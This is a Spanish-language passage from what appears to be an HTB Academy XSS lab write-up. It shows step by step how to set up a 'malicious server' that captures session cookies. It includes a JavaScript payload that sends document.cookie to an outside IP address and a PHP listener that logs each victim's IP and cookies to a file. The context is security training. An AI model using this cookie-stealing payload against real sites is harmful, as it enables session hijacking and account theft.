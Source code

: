 Voy a crear un servidor malicioso para capturar las cookies de sesion que se usen

Creo la carpeta `/tmp/tmpserver` y me posiciono en ella

```sh
mkdir /tmp/tmpserver && cd /tmp/tmpserver
```

![alt text](../assets/images/HTB_Academy_XSS/image-82.png)

```sh
touch script.js && nano script.js
```

Escribo el contenido siguiente:

```js
document.location='http://10.10.15.192:8080/index.php?c='+document.cookie;
```

![alt text](../assets/images/HTB_Academy_XSS/image-89.png)

Creo un fichero index.php

```sh
touch index.php && nano index.php
```

En el fichero `index.php` creo el siguiente codigo

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
